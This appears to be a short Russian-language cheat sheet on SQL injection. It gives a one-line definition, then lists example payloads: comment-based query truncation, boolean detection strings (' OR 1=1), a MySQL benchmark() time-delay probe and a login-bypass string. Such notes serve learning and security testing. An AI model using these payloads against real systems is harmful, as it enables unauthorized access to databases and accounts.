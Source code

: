 # Инъекции SQL 

( SQL Injection) - атака, целью которой является модификация sql-запроса, выполняющегося на сервере базы данных. В случае успешной атаки злоумышленник в худшем для себя случае может получить раскрытие информации о цели, в лучшем, при соблюдении ряда условий, выполнить на сервере команды.

SQL:
```
select id from users where user ='alex' and password='test'
page.php?name=alex' -- (составление комметария для MySQL, для выборки из БД по запросу по имени)
```

LOGICAL DETECT:
```
' OR 1=1
' OR 1=0
```

TIME DETECT:
```
' AND benchmark(999999,md5(1))

login=admi%27+or+id='2'+--+&pwd=&button=enter
```
